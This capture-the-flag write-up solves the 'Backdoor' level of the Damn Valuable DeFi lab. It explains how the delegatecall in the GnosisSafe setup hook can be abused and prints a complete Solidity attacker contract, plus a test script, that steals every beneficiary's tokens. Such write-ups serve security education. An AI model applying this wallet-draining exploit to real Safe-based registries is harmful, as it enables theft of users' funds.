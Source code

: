 ```yaml
---
description: Make sure you take enough time to understand each contract!
---
```


# 11 - Backdoor

```javascript
// Deploy Gnosis Safe master copy and factory contracts
this.masterCopy = await (await ethers.getContractFactory('GnosisSafe', deployer)).deploy();
this.walletFactory = await (await ethers.getContractFactory('GnosisSafeProxyFactory', deployer)).deploy();
this.token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
```

We first deploy 3 contracts: **`GnosisSafe`**, **`GnosisSafeProxyFactory`**, **`DamnValuableToken`**.

```javascript
// Deploy the registry
this.walletRegistry = await (
  await ethers.getContractFactory('WalletRegistry', deployer)
).deploy(this.masterCopy.address, this.walletFactory.address, this.token.address, users);
```

Then we deploy **`WalletRegistry`** contract which is provided from this challenge.



Let's see what's the success condition.

```javascript
/** SUCCESS CONDITIONS */
for (let i = 0; i < users.length; i++) {
  let wallet = await this.walletRegistry.wallets(users[i]);

  // User must have registered a wallet
  expect(wallet).to.not.eq(ethers.constants.AddressZero, 'User did not register a wallet');

  // User is no longer registered as a beneficiary
  expect(await this.walletRegistry.beneficiaries(users[i])).to.be.false;
}

// Attacker must have taken all tokens
expect(await this.token.balanceOf(attacker.address)).to.eq(AMOUNT_TOKENS_DISTRIBUTED);
```

1\) User must have a registered wallet

2\) User should no longer be registered as a beneficiary

3\) Attacker must take all `40 DVT`s.



## Solution

We will exploit the contract in the following order:

1. Attacker contract calls `createProxyWithCallback` in **`GnosisSafeProxyFactory`**
2. `createProxyWithCallback` will call `createProxyWithNonce`&#x20;
3. `createProxyWithNonce` calls `deployProxyWithNonce`&#x20;
4. `createProxyWithNonce` sends `initializer` to newly create proxy\
   \-> here, initializer will trigger `setup` function
5. createProxyWithCallback calls callback(`proxyCreated`) \
   \-> `10 DVT`s will be transfered from **`WalletRegistry`** to each user's proxy contract

```solidity
/// @dev Setup function sets initial storage of contract.
/// @param _owners List of Safe owners.
/// @param _threshold Number of required confirmations for a Safe transaction.
/// @param to Contract address for optional delegate call.
/// @param data Data payload for optional delegate call.
/// @param fallbackHandler Handler for fallback calls to this contract
/// @param paymentToken Token that should be used for the payment (0 is ETH)
/// @param payment Value that should be paid
/// @param paymentReceiver Adddress that should receive the payment (or 0 if tx.origin)
function setup(
    address[] calldata _owners,
    uint256 _threshold,
    address to, // Our malicious contract address
    bytes calldata data, // abi.encodeWithSignature("maliciousApprove(address)"
    address fallbackHandler,
    address paymentToken,
    uint256 payment,
    address payable paymentReceiver
) external {
    // setupOwners checks if the Threshold is already set, therefore preventing that this method is called twice
    setupOwners(_owners, _threshold);
    if (fallbackHandler != address(0)) internalSetFallbackHandler(fallbackHandler);
    // As setupOwners can only be called if the contract has not been initialized we don't need a check for setupModules
    setupModules(to, data);

    if (payment > 0) {
        // To avoid running into issues with EIP-170 we reuse the handlePayment function (to avoid adjusting code of that has been verified we do not adjust the method itself)
        // baseGas = 0, gasPrice = 1 and gas = payment => amount = (payment + 0) * 1 = payment
        handlePayment(payment, 0, 1, paymentToken, paymentReceiver);
    }
    emit SafeSetup(msg.sender, _owners, _threshold, to, fallbackHandler);
}
```

This is the setup function that is triggered by `initializer` sent from `createProxyWithNonce` (at **4.**)



```solidity
function setupModules(address to, bytes memory data) internal {
    require(modules[SENTINEL_MODULES] == address(0), "GS100");
    modules[SENTINEL_MODULES] = SENTINEL_MODULES;
    if (to != address(0))
        // Setup has to complete successfully or transaction fails.
        require(execute(to, 0, data, Enum.Operation.DelegateCall, gasleft()), "GS000");
}
```

Here, setupModules delegatecalls to the address to.

So we will pass in our malicious contract address to `setupModules` function.



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "../DamnValuableToken.sol";
import "./WalletRegistry.sol";

contract AttackWalletRegistry {
    // Note that these variables are declared as immutable
    // so these can be read even when this contracted is delegatecalled
    address immutable mastercopy;
    address immutable proxyFactory;
    address immutable walletRegistry;
    DamnValuableToken immutable dvt;

    constructor(
        address _mastercopy,
        address _walletFactory,
        address _walletRegistry,
        DamnValuableToken _dvt
    ) {
        mastercopy = _mastercopy;
        proxyFactory = _walletFactory;
        walletRegistry = _walletRegistry;
        dvt = _dvt;
    }
    
    // this function will be called via delegatecall from GnosisSafe.setupModule
    function maliciousApprove(address _spender) external {
        IERC20(dvt).approve(_spender, 10 ether);
    }

    function attack(address[] calldata _beneficiaries) external {
        for (uint256 i = 0; i < 4; i++) {
            address[] memory beneficiary = new address[](1);
            beneficiary[0] = _beneficiaries[i];
            
            bytes memory initializer = abi.encodeWithSelector(
                GnosisSafe.setup.selector,
                beneficiary,
                1,
                address(this),
                abi.encodeWithSignature("maliciousApprove(address)", address(this)),
                address(0),
                address(0),
                0,
                address(0)
            );

            GnosisSafeProxy newProxy = GnosisSafeProxyFactory(proxyFactory).createProxyWithCallback(
                mastercopy,
                initializer,
                i, // can ba any value
                IProxyCreationCallback(walletRegistry)
            );
            
            // move 10 DVTs that we maliciously approved using delegatecall
            dvt.transferFrom(address(newProxy), msg.sender, 10 ether);
        }
    }
}

```

```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  const AttackWalletRegistryFactory = await ethers.getContractFactory('AttackWalletRegistry');
  const attackWalletRegistry = await AttackWalletRegistryFactory.deploy(
    this.masterCopy.address,
    this.walletFactory.address,
    this.walletRegistry.address,
    this.token.address
  );
  await attackWalletRegistry.deployed();

  await (await attackWalletRegistry.connect(attacker).attack(users)).wait();
});
```
